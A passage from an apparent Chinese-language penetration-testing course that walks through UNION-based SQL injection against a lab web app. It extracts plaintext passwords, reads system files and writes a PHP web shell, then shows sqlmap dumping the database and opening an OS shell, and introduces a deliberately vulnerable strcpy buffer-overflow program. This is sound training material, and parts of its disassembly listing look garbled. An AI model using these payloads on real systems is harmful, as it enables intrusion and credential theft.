此查询指示数据库根据第一列中的值对结果进行排序。如果查询中至少有一列，则查询有效，页面将无错误渲染。我们可以提交多个查询，每次递增 `order by` 子句，直到查询生成错误，表明已超出查询返回的最大列数。请记住，查询可以选择表中的所有列或仅列的一个子集。如果我们无法访问源查询，我们需要依靠这种试错方法。

由于我们需要迭代任意次数的列号，我们应该使用 `Burp Suite` 的 `Repeater` 工具自动化查询。

为此，我们首先必须启动 `Burp Suite`，关闭 `Intercept` 并对我们的 Windows 目标启动 URL。在 `Proxy > HTTP history` 中，我们应该看到我们要重复的请求：


图 163：在 `Burp Suite` 中查看 HTTP 历史

接下来，我们将右键单击请求并选择 `Send to Repeater`。请求现在应该显示在 `Repeater` 选项卡下。


*图 164：在 Repeater 中查看请求*

请注意，请求已进行 URL 编码并显示为 "`id=1%20order%20by%201`"。这不应影响我们的查询。我们可以单击 `Send` 来提交查询：


*图 165：使用 Repeater*

响应看起来正常。我们可以使用响应窗格下的搜索框搜索 "`Error`"，并验证响应主体中没有匹配项。


**图 1.66：Repeater 结果**

[287] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Prepared_statement

接下来，我们可以递增 *order_by* 子句并再次发送查询，直到我们收到错误消息。我们可以使用响应窗格下方的搜索框来突出显示响应中的错误：


图 167：在 `Burp Suite` 中使用搜索字段

由于 *order by* 子句在第四次迭代时产生了错误，我们知道该查询返回了一个包含三列的结果集。

### 9.4.5.7 理解输出的布局

既然我们知道表中有多少列，就可以利用这一信息通过 *UNION* 语句提取更多数据。联合查询允许我们在原始查询后添加第二个 `select` 语句，从而扩展我们的能力，但每个 `select` 语句必须返回相同数量的列。

根据我们的枚举，我们知道该查询选择了三列。然而，网页上只显示了两列。我们的下一步是确定哪些列被显示。如果我们使用联合查询来提取有用数据，我们需要确保这些数据会被显示出来。

我们需要更好地理解输出，以便开始构建有意义的数据库提取过程。首先，让我们大致了解页面上显示了哪些列。我们将使用 `UNION` 来完成这一点。我们可以指定字面值，而不是从表中查找值。由于我们有三列，我们将在 payload 中添加 "`union all select 1, 2, 3`"。这个新的 `select` 语句将返回一行，包含三列，值分别为 1、2 和 3。我们的 payload 现在变为：

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, 3
```


### *清单 326 - 更新我们的 payload 以使用联合查询*

页面显示了不同列的位置，如下所示：


*图 168：查看联合查询 Payload 的结果*

我们可以看到，第一列没有显示，第二列显示在名称字段中，第三列显示在评论字段中。评论字段有更多的空间，因此这是我们未来漏洞利用输出的逻辑位置。

> 如果以上内容有任何不清楚的地方，现在是直接连接数据库并尝试这些查询的好时机。利用 SQL 注入并不需要你是一位经验丰富的数据库管理员，但你对 SQL 及其查询行为越熟悉，就越容易从 SQL 错误消息过渡到成功利用 SQL 注入漏洞。

## 9.4.5.8 从数据库中提取数据

我们现在可以开始从数据库中提取信息。以下示例使用了特定于 MariaDB 的命令。然而，大多数其他数据库提供类似的功能，只是语法略有不同。无论我们要针对哪种数据库软件，了解平台特定的命令都是最佳实践。

例如，要输出 MariaDB 的版本，我们可以使用此 URL：

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @version
```

*清单 327 - 一个提取数据库版本的 SQL 注入 payload*

这应该在名称字段中输出 "2"，在评论字段中输出数据库版本号：


好的。看起来它是有效的。接下来，让我们使用此查询输出当前数据库用户：

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

*清单 328 - 一个提取数据库用户的 SQL 注入 payload*

此查询揭示了数据库查询使用的是 `root` 用户：


我们可以通过 `information_schema.`<sup>288</sup> 枚举数据库表和列结构。信息模式存储了关于数据库的信息，如表和列的名称。我们可以使用它来获取数据库的布局，从而能够构建更好的 payload 来提取敏感数据。此查询类似于以下内容：

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

*清单 329 - 一个提取表名的 SQL 注入 payload*

> <sup>288</sup> (Wikipedia, 2019), https://en.wikipedia.org/wiki/Information_schema

这会输出大量数据，其中大部分引用了 MariaDB 默认对象的信息。它也会包含表名，但我们需要滚动输出才能找到它们。


*users* 表看起来特别有趣。让我们将该表作为目标，并使用以下查询检索列名：

```sql
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

*清单 330 - 一个提取表列的 SQL 注入 payload*

这会输出 `users` 表的所有列名：


*图 172：从数据库中列名中提取*

有了这些信息，我们可以从表中提取用户名和密码。我们知道原始查询选择了三列，而网页显示的是第二列和第三列。如果我们更新联合查询 payload，我们就可以在第二列显示用户名，在第三列显示密码。

```
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

*清单 331 - 一个提取 users 表的 SQL 注入 payload*

这将在名称字段中输出数据库用户名，在评论字段中输出密码：


*图 173：提取用户表的内容*

很好。我们不仅获取了用户名和密码，而且密码全是明文。我们可以通过登录管理员页面来验证这些凭据。

我们可以查看源代码来验证我们在黑盒测试中得出的结论：

```php
36  <?php

37      include "database.php";

38      if (isset($_GET['id'])) {

39          $sql = "SELECT id, name, text FROM feedback WHERE id= " . $_GET['id'];

40          $result = $conn->query($sql);

41          if (!$result) {

42              trigger_error('An error occurred: ' . $conn->error);

43          } else if ($result->num_rows > 0) {

44              while($row = $result->fetch_assoc()) {

45                  echo "<tr><td> " . $row["name"]. "</td><td>" . $row["text"]. "</td></tr>";

46              }
47          } else { echo "No results. Specify an id."; }
48      } else {
49          echo "No results. Specify an id in your URL like ?id=1.";
50      }
51  ?>
```

*清单 332 - debug.php 的代码摘录*

导致 SQL 注入的脆弱代码位于清单 332 的第 39 行。注入点位于查询 "WHERE" 子句的末尾，这使得使用 "UNION" payload 变得容易。查询结果在第 45 行被获取并写入以供显示。请注意，虽然查询中包含三列，但只有两列被显示。这就是为什么我们使用第二列和第三列从另一个表中提取数据。

## 9.4.5.9 练习

- 1. 使用 SQL 注入枚举数据库的结构。
- 2. 理解如何以及为什么可以从你注入的命令中拉取数据并在屏幕上显示。
- 3. 从数据库中提取所有用户及其关联的密码。

## 9.4.5.10 从 SQL 注入到代码执行

让我们看看能多大程度上利用这个漏洞。根据操作系统、服务权限和文件系统权限，SQL 注入漏洞可用于读取和写入底层操作系统上的文件。在 Web 服务器的根目录中写入一个包含 PHP 代码的精心构造的文件，随后可以被利用来实现完全代码执行。

首先，让我们看看我们是否能使用 `load_file` 函数读取文件：

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

*清单 333 - 使用 load_file 函数的 SQL 注入 payload*

这应该输出 `hosts` 文件的内容：


*图 174：使用 Load File 函数*

接下来，我们将尝试使用 *INTO OUTFILE* 功能在服务器的 Web 根目录中创建一个恶意的 PHP 文件。基于我们之前看到的错误消息，我们应该知道 Web 根目录的位置。我们将尝试编写一个简单的 PHP 单行代码，类似于 LFI 示例中使用的：

```
http://10.11.0.22/debug.php?id=1 union all select 1,2, "<?php echo shell_exec($_GET['cmd']) ?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```


### *清单 334 - 使用 OUTFILE 功能写入 PHP Shell 的 SQL 注入 payload*

如果成功，该文件应放置在 Web 根目录中：


*图 175：利用 SQL 注入写入 PHP Shell*

此命令产生错误消息，但这并不意味着文件创建失败。让我们尝试访问新创建的 `backdoor.php` 页面，并使用 `cmd` 参数，例如 `ipconfig`：


图 176：*使用后门 PHP 命令 Shell*

很好。我们现在已将 SQL 注入漏洞转化为服务器上的代码执行。通过安装 Web Shell，我们可以轻松将其扩展为完整的 Shell 访问权限。

## 9.4.5.11 *练习*

- 1. 利用 SQL 注入并结合 MariaDB 的 `INTO OUTFILE` 函数获取代码执行权限。
- 2. 将简单的代码执行转变为完整的 Shell 权限。

## 9.4.5.12 *自动化 SQL 注入*

我们遵循的 SQL 注入过程可以通过 Kali Linux 中预装的各种工具实现自动化。其中一个较为显著的工具是 `sqlmap`[289]，它可以用于识别和针对各种数据库引擎利用 SQL 注入漏洞。

让我们在我们的示例 Web 应用程序上使用 sqlmap。我们将使用 `-u` 设置要扫描的 URL，并使用 `-P` 指定要测试的参数：

```
kali@kali:~$ sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"

...

[13:53:45] [INFO] heuristic (basic) test shows that GET parameter 'id' might be

injectable (possible DBMS: 'MySQL')

[13:53:45] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be

vulnerable to cross-site scripting (XSS) attacks

[13:53:45] [INFO] testing for SQL injection on GET parameter 'id'

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific

for other DBMSes? [Y/n] y

for the remaining tests, do you want to include all tests for 'MySQL' extending provid

ed level (1) and risk (1) values? [Y/n] y

[13:53:57] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'

--

sqlmap identified the following injection points with a total of 47 HTTP(s) requests:

---

Parameter: id (GET)

    Type: boolean-based blind

    Title: AND boolean-based blind - WHERE or HAVING clause

    Payload: id=1 AND 8867=8867

    Type: error-based

    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (

FLOOR)

Payload: id=1 AND (SELECT 6734 FROM(SELECT COUNT(*),CONCAT(0x71716aa671,(SELECT (ELT(6734=6734,1)),0x716a6b711,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind

    Title: MySQL >= 5.0.12 AND time-based blind

    Payload: id=1 AND SLEEP(5)

    Type: UNION query

    Title: Generic UNION query (NULL) – 3 columns

    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71716a6a71,0x6768746c4a354b5769685

07871586a4764c4b4352594367685371725045706f6d456a5472a4b4a686d,0x716a6b711) -- peGa

---

[13:54:11] [INFO] the back-end DBMS is MySQL

web server operating system: Windows

web application technology: Apache 2.4.37, PHP 7.0.33

back-end DBMS: MySQL >= 5.0

[13:54:11] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/10.11.0.22'
```

**列表 335 - sqlmap 使用示例**

[289] (sqlmap, 2019), http://sqlmap.org/

Sqlmap 将发出多个请求以探测参数是否易受 SQL 注入影响。它还试图确定正在使用的数据库软件，以便可以针对该软件调整攻击。在这种情况下，它发现了四种不同的利用漏洞的技术。它还列出了每种技术的载荷。即使 sqlmap 在为我们做事，拥有这些示例载荷也有助于我们理解它是如何利用漏洞的。

我们现在可以使用 sqlmap 来自动化从数据库中提取数据。我们将再次运行 `sqlmap`，使用 `--dbms` 设置后端类型为“MySQL”，并使用 `--dump` 导出数据库中所有表的内容。Sqlmap 在 `--dbms` 标志中支持多种后端数据库，但它不区分 MariaDB 和 MySQL。对于此示例，设置“MySQL”就足够了。

```
kali@kali:~$ sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump

Database: webappdb

Table: feedback

[2 entries]

| id | text                                | name  |

|---|-------------------------------------|-------|

| 1  | Great tacos today!                  | Jake  |

| 2  | I would eat tacos here every day if I could! | John  |

[13:56:58] [INFO] table 'webappdb.feedback' dumped to CSV file '/home/kali/.sqlmap/out

put/10.11.0.22/dump/webappdb/feedback.csv'

[13:56:58] [INFO] fetching columns for table 'users' in database 'webappdb'

[13:56:58] [INFO] fetching entries for table 'users' in database 'webappdb'

Database: webappdb

Table: users

[2 entries]

| id | username | password |

+---+-------+-----------------+

| 1 | admin | p@$$w0rd        |

| 2 | jigsaw | footworklure    |

+---+-------+-----------------+

[13:56:58] [INFO] table 'webappdb.users' dumped to CSV file '/home/kali/.sqlmap/output/

/10.11.0.22/dump/webappdb/users.csv'
```


[13:56:58] [INFO] fetched data logged to text files under `/home/kali/.sqlmap/output/10.11.0.22`

### 列表 336 - 使用 sqlmap 导出数据库

根据列表 336 中的输出，`sqlmap`能够导出整个数据库的内容。除了在终端窗口中显示内容外，`sqlmap`还创建了一个包含导出内容的 CSV 文件。

`Sqlmap`还有许多其他功能，例如尝试绕过 Web 应用程序防火墙 (`WAF`) 以及执行复杂查询以自动化完全接管服务器。例如，使用 `os-shell` 参数将尝试自动上传并在目标系统上执行远程命令 Shell。

我们可以通过运行带有 `--os-shell` 的 `sqlmap` 来使用此功能，在系统上执行 Shell：

```
kali@kali:~$ sqlmap -u http://10.11.0.22/debug.php?id=1 --os-shell
```

---

[14:00:49] [INFO] trying to upload the file stager on 'C:/xampp/htdocs/' via LIMIT 'LINES TERMINATED BY' method

[14:00:49] [INFO] the file stager has been successfully uploaded on 'C:/xampp/htdocs/' - http://10.11.0.22:80/tmpuwryd.php

[14:00:49] [INFO] the backdoor has been successfully uploaded on 'C:/xampp/htdocs/' - http://10.11.0.22:80/tmptbxtja.php

[14:00:49] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ipconfig

do you want to retrieve the command standard output? [Y/n/a] y

command standard output:

---

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain

   Link-local IPv6 Address . . . . : fe80::c5a0:cbd8:9e03:3f85%7

   IPv4 Address. . . . . . . . . . : 10.11.0.22

   Subnet Mask . . . . . . . . . . : 255.255.255.0

   Default Gateway . . . . . . . . : 10.11.0.2

Ethernet adapter Bluetooth Network Connection:

   Media State . . . . . . . . . . : Media disconnected

   Connection-specific DNS Suffix  . :

---

os-shell>

### 列表 337 - 使用 sqlmap 获取 OS Shell

一旦 `sqlmap` 建立 Shell，我们可以在服务器上运行命令并查看输出，如 337 所示。这个 Shell 可能会比较慢，但它可以提供有效的立足点来获取对底层服务器的访问权限。

请注意，`sqlmap` 在 OSCP 考试中是不允许使用的。然而，我们建议在实验室和 Windows 10 实验室机器上使用它进行练习。考虑将其与 Burp 和 Wireshark 等工具结合使用，以捕获工具正在执行的操作，然后尝试手动复现攻击。这通常是一种非常有效的学习技巧，不应被忽视。

## 9.4.5.13 练习

- 1. 使用 `sqlmap` 获取数据库的完整导出。
- 2. 使用 `sqlmap` 获取交互式 Shell。

## 9.5 额外里程

Windows 10 实验室机器包含一个额外的 Web 应用程序，用于练习 XSS 和 SQL 注入漏洞。该应用程序使用 Java 编写，使用 Spring 框架[290]，并在端口 9090 上运行。可以使用以下命令运行该应用程序：

```
C:\tools\web_attacks> java -jar gadgets-1.0.0.jar
...
2019-06-13 10:29:36.962 INFO 4976 --- [ main]
com.pwk.webapp.GadgetsApplication : Starting GadgetsApplication on DESKTOP-IPD21BB with
(C:\tools\web_attacks\gadgets-1.0.0.jar started by admin in C:\tools\web_attacks)
...
2019-06-13 10:29:42.680 INFO 4976 --- [ main]
o.s.b.w.embedded.tomcat.TomcatWebServer : Tomcat started on port(s): 9090 (http) with
2019-06-13 10:29:42.759 INFO 4976 --- [ main]
com.pwk.webapp.GadgetsApplication : Started GadgetsApplication in 7.047 seconds (JVM r
```


**列表 338 - 在 Windows 上启动额外应用程序**

运行后，我们可以在端口 9090 上访问它：

[290] (Spring, 2019), https://docs.spring.io/spring/docs/current/spring-framework-reference/overview.html#overview


虽然该应用程序至少包含 XSS 和 SQL 注入漏洞，但我们不会逐一讲解所有漏洞。要终止该应用程序，请关闭命令窗口或使用 `Ctrl+C`。

#### 9.5.1 练习

（这些练习不需要报告）

- 识别并利用 Web 应用程序中的 XSS 漏洞。
- 识别并利用 Web 应用程序中的 SQL 注入漏洞。
- 是否可以通过 SQL 注入漏洞获取 shell？为什么是或为什么不是？

## 9.6 总结

在本模块中，我们重点介绍了常见 Web 应用程序漏洞的识别与枚举。我们还利用多种技术利用了几个常见的 Web 应用程序漏洞，包括管理控制台弱点、跨站脚本（XSS）、目录遍历、本地和远程文件包含以及 SQL 注入。这些攻击向量是我们构建更高级攻击的基本构建模块。

## 10. 缓冲区溢出简介

在本模块中，我们将介绍 *缓冲区溢出* 背后的原理，这是一种内存损坏漏洞。我们将回顾程序内存是如何使用的，缓冲区溢出是如何发生的，以及溢出如何被用来控制应用程序的执行流。充分理解使这种攻击成为可能的条件，对于开发利用此类漏洞的攻击载荷至关重要。

### 10.1 x86 架构简介

为了理解内存损坏是如何发生的以及如何将其转化为未授权访问，我们需要讨论程序内存，理解软件在 CPU 层面的工作原理，并概述一些基本定义。

> *在讨论这些原理时，我们会经常提到汇编（asm），这是一种极其低级的编程语言，与 CPU 内置的机器代码指令非常接近。*

#### 10.1.1 程序内存

当二进制应用程序执行时，它会在现代计算机使用的内存边界内以非常特定的方式分配内存。图 178 展示了在 Windows 中，进程内存如何在最低内存地址（`0x00000000`）和应用程序使用的最高内存地址（`0x7FFFFFFF`）之间分配：


图 178. Windows 中程序内存的结构

虽然该图中标注了几个内存区域，但为了我们的目的，我们将仅关注堆栈。

#### 10.1.1.1 堆栈

当线程运行时，它执行来自程序映像或各种动态链接库（DLL）中的代码。[^292] 线程需要一个用于函数、局部变量和程序控制信息的短期数据区域，这被称为堆栈。[^293] 为了便于多个线程独立执行，正在运行的应用程序中的每个线程都有自己独立的堆栈。

堆栈内存被 CPU 视为一种后进先出（LIFO）结构。这意味着在访问堆栈时，放置在堆栈顶部的项（“压入”）会首先被移除（“弹出”）。x86 架构实现了专用的 `PUSH` 和 `POP` 汇编指令，分别用于向堆栈添加或从堆栈移除数据。

[^292]: (Microsoft, 2018), https://docs.microsoft.com/en-us/windows/desktop/dlls/dynamic-link-libraries
[^293]: (Tutorials Point, 2020), https://www.tutorialspoint.com/assembly_programming/assembly_procedures.htm

> 可能还需要一个长期且更具动态性的数据存储区域，称为堆，[^294] 但由于我们专注于基于堆栈的缓冲区溢出，因此在本模块中我们将不讨论堆内存。

[^294]:

#### 10.1.1.2 函数返回机制

当线程内的代码调用函数时，它必须知道函数完成后要返回的地址。这个“返回地址”（连同函数的参数和局部变量一起）存储在堆栈上。这组数据与一次函数调用相关联，并存储在称为堆栈帧的堆栈内存部分中。图 179 展示了一个堆栈帧的示例。

| 线程堆栈帧示例 | |
| --- | --- |
| 函数 A 的返回地址： | `0x00401024` |
| 函数 A 的参数 1： | `0x00000040` |
| 函数 A 的参数 2： | `0x00001000` |
| 函数 A 的参数 3： | `0xFFFFFFFF` |

图 179: 堆栈上的返回地址

当函数结束时，从堆栈中取出的返回地址被用来恢复执行流，回到主程序或调用函数。

虽然这从高层描述了该过程，但我们需要更深入地了解这在 CPU 层面是如何实现的。这需要讨论 CPU 寄存器。[^295]

[^295]:

#### 10.1.2 CPU 寄存器

为了执行高效的代码，CPU 维护并使用一系列九个 32 位寄存器（在 32 位平台上）。寄存器是小型、极高速度 CPU 存储位置，数据可以在此高效读取或操作。图 180 展示了这九个寄存器，包括这些寄存器高位和低位的命名约定。

| 32 位寄存器 | 低 16 位 | 高 8 位 | 低 8 位 |
| :--- | :---: | :---: | :---: |
| EAX | AX | AH | AL |
| EBX | BX | BH | BL |
| ECX | CX | CH | CL |
| EDX | DX | DH | DL |
| ESI | SI | N/A | N/A |
| EDI | DI | N/A | N/A |
| EBP | BP | N/A | N/A |
| ESP | SP | N/A | N/A |
| EIP | IP | N/A | N/A |

*图 180: X86 CPU 寄存器*

寄存器名称是为 16 位架构建立的，随着 32 位（x86）平台的出现而扩展，因此寄存器缩写中包含字母“E”。每个寄存器可以包含一个 32 位值（允许值在 0 到 `0xFFFFFFFF` 之间），或者如我在图 181 中所示的 `EAX` 寄存器，其相应的子寄存器可以包含 16 位或 8 位值。


> 由于本模块的目的是演示缓冲区溢出，我们将不会深入汇编的细节，但会突出一些对我们特定讨论重要的元素。如需更多细节或要超越这里讨论的基本技术，请参阅这些在线资源。[^296]

[^296]:

#### 10.1.2.1 通用寄存器

几个寄存器，包括 `EAX`、`EBX`、`ECX`、`EDX`、`ESI` 和 `EDI`，通常作为通用寄存器存储临时数据。关于此主题的讨论内容非常多（正如各种在线资源所解释的[^297]），但对我们而言，主要寄存器描述如下：

- `EAX`（累加器）：算术和逻辑指令
- `EBX`（基址）：内存地址的基指针
- `ECX`（计数器）：循环、移位和旋转计数器
- `EDX`（数据）：I/O 端口寻址、乘法和除法
- `ESI`（源变址）：字符串复制操作中数据和源指针的寻址
- `EDI`（目的变址）：字符串复制操作中和目的指针的寻址

[^297]:

#### 10.1.2.2 ESP - 堆栈指针

如前所述，堆栈用于存储数据、指针和参数。由于堆栈是动态的，并在程序执行期间不断变化，堆栈指针 `ESP` 通过存储指向最近引用的堆栈位置（堆栈顶）的指针来“跟踪”该位置。

> 指针是内存中地址（或位置）的引用。当我们说某个寄存器“存储指针”或“指向”某个地址时，这基本上意味着该寄存器存储了该目标地址。

#### 10.1.2.3 EBP - 基址指针

由于在线程执行期间堆栈不断变化，函数可能很难定位自己的堆栈帧，其中存储了所需的参数、局部变量和返回地址。基址指针 `EBP` 通过在函数调用时存储指向堆栈顶部的指针来解决这个问题。通过访问 `EBP`，函数在执行时可以轻松地通过偏移量引用其自身堆栈帧中的信息。

#### 10.1.2.4 EIP - 指令指针

指令指针 `EIP` 对于我们的目的来说是其中一个最重要的寄存器，因为它始终指向下一条将要执行的代码指令。由于 `EIP` 基本上指导程序的流程，因此在利用如缓冲区溢出等任何内存损坏漏洞时，它是攻击者的主要目标。

## 10.2 缓冲区溢出步骤解析

在本节中，我们将分析一个简单的易受攻击的应用程序，该应用程序不对用户输入进行适当的清理。我们将分析应用程序的源代码，并发现通过向应用程序传递一个专门构造的参数，我们可以将受控的输入字符串复制到较小大小的堆栈缓冲区中，最终使其溢出。此溢出将破坏堆栈上的数据，最终导致返回地址被覆盖，并完全控制 `EIP` 寄存器。

控制 `EIP` 是创建成功缓冲区溢出的第一步。在本模块中，我们将专注于控制 `EIP`，并在后续模块中解释如何将其转化为任意代码执行。

## 10.2.1 易受漏洞影响的代码示例

以下列表展示了一个非常基础的 C 语言源代码，该应用程序易受缓冲区溢出攻击。

```
#include <stdio.h>

#include <string.h>

int main(int argc, char *argv[])  

{

    char buffer[64];

    if (argc < 2)
```


```
    {

        printf("Error – You must supply at least one argument\n");

        return 1;

    }

    strcpy(buffer, argv[1]);

    return 0;

}
```

### 列表 339 - 一个易受漏洞影响的 C 函数

即使您之前从未接触过 C 代码，上述列表所示的逻辑应该也比较容易理解。首先，值得注意的是，在 C 语言中，主函数与其他函数一样被同等对待；它可以接收参数、向调用程序返回值等。唯一的区别是，它在进程启动时由操作系统本身“调用”。

在这种情况下，`main` 函数首先定义了一个名为 `buffer` 的字符数组，该数组最多可容纳 64 个字符。由于该变量是在函数内定义的，C 编译器将其视为局部变量，并会在栈上为其保留空间（64 字节）。具体来说，当程序运行时，在 `main` 函数执行期间，这块内存空间将在 `main` 函数的栈帧内被保留。

> 顾名思义，局部变量具有局部作用域，这意味着它们仅在其声明的函数或代码块内可被访问。相比之下，全局变量存储在程序的 `.data` 段中，这是程序的一个不同的内存区域，所有应用程序代码都可以全局访问。

随后，程序继续将给定的命令行参数内容（`argv[1]`[^303]）复制到 `buffer` 字符数组中（使用 `strcpy`[^302]）。请注意，C 语言不原生支持字符串作为数据类型。在底层，字符串是一序列以空字符（`\0`）结尾的字符，或者换句话说，是一个一维字符数组。

最后，程序终止其执行，并向操作系统返回一个零（标准成功退出码）。

当我们调用此程序时，我们会向其传递命令行参数。`main` 函数借助两个参数 `argc` 和 `argv` 来处理这些参数，它们分别代表传递给程序的参数数量（以整数形式传递）以及指向参数“字符串”本身的指针数组。

如果传递给 `main` 函数的参数长度不超过 64 个字符，该程序将按预期工作并正常退出。然而，由于没有对输入大小进行检查，如果参数更长，例如 80 字节，目标缓冲区相邻的部分栈将被剩余的 16 个字符覆盖，从而溢出数组边界。图 182 对此进行了说明。

| StrCpy 前 | 复制 32 个 A | 复制 80 个 A |
| :---: | :---: | :---: |
| StrCpy 目标地址 | StrCpy 目标地址 | StrCpy 目标地址 |
| StrCpy 源地址 | StrCpy 源地址 | StrCpy 源地址 |
| 保留的 char buffer 内存 | AAAAAAAAAAAAAAAAAA | AAAAAAAAAAAAAAAAAA |
| 保留的 char buffer 内存 | AAAAAAAAAAAAAAAAAA | AAAAAAAAAAAAAAAAAA |
| 保留的 char buffer 内存 | 保留的 char buffer 内存 | AAAAAAAAAAAAAAAAAA |
| 保留的 char buffer 内存 | 保留的 char buffer 内存 | AAAAAAAAAAAAAAAAAA |
| main 的返回地址 | main 的返回地址 | AAAA |
| Main 参数 1 | Main 参数 1 | AAAA |
| Main 参数 2 | Main 参数 2 | AAAA |


这种内存破坏的影响取决于多个因素，包括溢出的大小以及该溢出中包含的数据。为了了解在我们的场景中这是如何运作的，我们可以向应用程序应用一个超尺寸参数并观察其影响。

[^302]: (linux die net), https://linux.die.net/man/3/strcpy
[^303]: (GBdirect), https://publications.gbdirect.co.uk/c-book/chapter10/arguments_to_main.html

#### 10.2.2 介绍 Immunity 调试器

我们可以使用一种称为调试器[^304]的应用程序来辅助漏洞利用开发过程。调试器充当应用程序和 CPU 之间的代理，它允许我们在任何时间停止执行流程，以检查寄存器的内容以及进程内存空间。在通过调试器运行应用程序时，我们还可以逐条执行汇编指令，以便更好地理解代码的详细流程。虽然可用的调试器有很多种，但我们将使用 *Immunity Debugger*[^305]，它有一个相对简单的界面，并允许我们使用 Python 脚本自动化任务。

我们可以尝试在易受漏洞影响的测试应用程序中溢出缓冲区，并使用 Immunity Debugger 更好地理解程序执行每个阶段具体发生了什么。

为了启动 Immunity 并执行代码，我们将通过桌面快捷方式启动它，并导航至 *File > Open*（文件 > 打开），如图 183 所示。


> *图 183: Immunity 调试器*

在对话框中，我们导航到 `windows_buffer_overflow` 目录并打开 `strcpy.exe`，这是上一节中分析的源代码的编译版本。在点击 *Open*（打开）之前，我们如图 184 所示，在 *Arguments*（参数）字段中添加十二个 "A" 字符。这 12 个字符将作为程序的命令行参数，随后被 `strcpy` 函数使用。

[^304]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Debugger
[^305]: (Immunity, 2019), https://www.immunityinc.com/products/debugger/


图 184: 加载应用程序

当调试器启动时，应用程序的执行流程将暂停在入口点[^306]。不幸的是，在这个例子中，入口点并不与主函数的开始部分重合。这并不罕见，因为通常入口点由编译器设置为一段旨在帮助准备程序执行的代码段。除其他事项外，这种准备包括设置 `main` 可能预期的所有参数。

在继续之前，让我们更熟悉一下 Immunity 并练习导航最相关的功能。图 185 显示了主屏幕，它被分成四个窗口或窗格。

[^306]: (Wikipedia, 2019). https://en.wikipedia.org/wiki/Entry_point


*图 185: Immunity 调试器布局*

左上角的窗口显示了构成应用程序的汇编指令。蓝色高亮的指令（*SUB ESP,0C*）是下一条要执行的汇编指令，它位于进程内存空间中的地址 0x004014E0：

```
004014E0   : 89EC 0C             ...  EBP,EC
004014E3   : C705 3834A000       MOV DWORD PTR DS:[403834],0
004014ED   : E8 5E020000         CALL strcpy.0040174D
004014F2   : 88C4 9F             ...  ESP,RC
004014F5   : E9 76FCFFFF          JMP strcpy.00401176
004014FB   : 90                   NOP
004014FC   : 90                   NOP
004014FD   : 90                   NOP
004014FE   : 90                   NOP
004014FF   : 90                   NOP
00401500   : 55                   PUSH EBP
00401501   : 89E5                 ...  EBP,ESP
00401503   : 83EC 18             SUB ESP,18
00401506   : A1 2C39A000         EAX DWORD PTR DS:[40392C]
0040150B   : 85C0                TEST EAX,EAX
0040150D   : 74 30               JE SHORT strcpy.0040154B
0040150F   : C7A424 00A0A00      MOV DWORD PTR SS:[ESP+...  ASCII "libgcj-16.dll"
00401516   : FF15 24614000       CALL DWORD PTR DS:[46124]
0040151C   : 05C2 84             ...  ESP,4
```


``` 
0040151F   : 85C0                TEST EAX,EAX

00401521   : B4 00000000         MOV EDX,0

00401525   : 74 15               JE SHORT strcpy.0040153E

00401528   : C7A424 04 0E41      MOV DWORD PTR SS:[ESP+4...  ASCII "_Jv_RegisterClasses"

00401530   : B99424              MOV DWORD PTR SS:[ESP+... 

00401533   : FF15 29614000       CALL DWORD PTR DS:[46129]...  GetProcAddress

00401539   : 83EC 08             SUB ESP,8

0040153C   : 89F2                MOV EDX,EAX

0040153E   : 85D2                TEST EDX,EDX

00401540   : 74 09               JE SHORT strcpy.0040154B

00401542   : C70424 2C30A00      MOV DWORD PTR SS:[ESP]...  strcpy.0040302C

00401549   : FFD2                CALL EDX

0040154B   : C70424 601540      MOV DWORD PTR SS:[ESP],...  strcpy.00401548

00401552   : E3 29610000         CALL strcpy.00461000

00401557   : C9                   LEAVE

00401558   : C3                   RET

00401559   : 89C426 000000       LEA DS:[ESI]

00401560   : 55                   PUSH EBP

00401561   : 89E5                 ...  EBP,ESP

00401563   : 5D                   POP EBP

00401564   : C3                   RET
```

图 186: Immunity 调试器汇编窗口

右上角的窗口（图 187）包含所有寄存器，包括我们最感兴趣的两个：`ESP` 和 `EIP`。由于根据定义 `EIP` 指向下一条要执行的代码指令，它被设置为 `0x004014E0`，即汇编窗口（图 185）中高亮的指令。


图 187：Immunity 调试器寄存器窗口

右下角窗口（图 188）显示了栈及其内容。该视图包含四列：内存地址、该地址处的十六进制数据、数据的 ASCII 表示形式，以及一条动态注释，当可用时提供与特定栈条目相关的附加信息。数据本身（第二列）以 32 位值的形式显示，称为*双字*（`DWORD`），显示为四个十六进制字节。请注意，此窗格在栈顶显示地址 `0x0065FF84`，而这实际上正是寄存器窗口（图 187）中 `ESP` 存储的值：


图 188：Immunity 调试器栈窗口

最后一个窗口位于左下角，显示任意给定地址的内存内容。与栈窗口类似，它显示三列，包括内存地址以及数据的十六进制和 ASCII 表示形式。顾名思义，该窗口在搜索或分析进程内存空间中的特定值时可能很有帮助，通过右键单击窗口内容访问上下文菜单，可以不同格式显示数据。


图 189：Immunity 调试器数据窗口

## 10.2.3 代码导航

在映射了调试器的不同窗口后，现在是导航汇编代码的时候了。加载时，应用程序执行被暂停，调试器右下角的“Paused”字样表明了这一点。如前一节所述，调试器在程序入口点自动暂停。

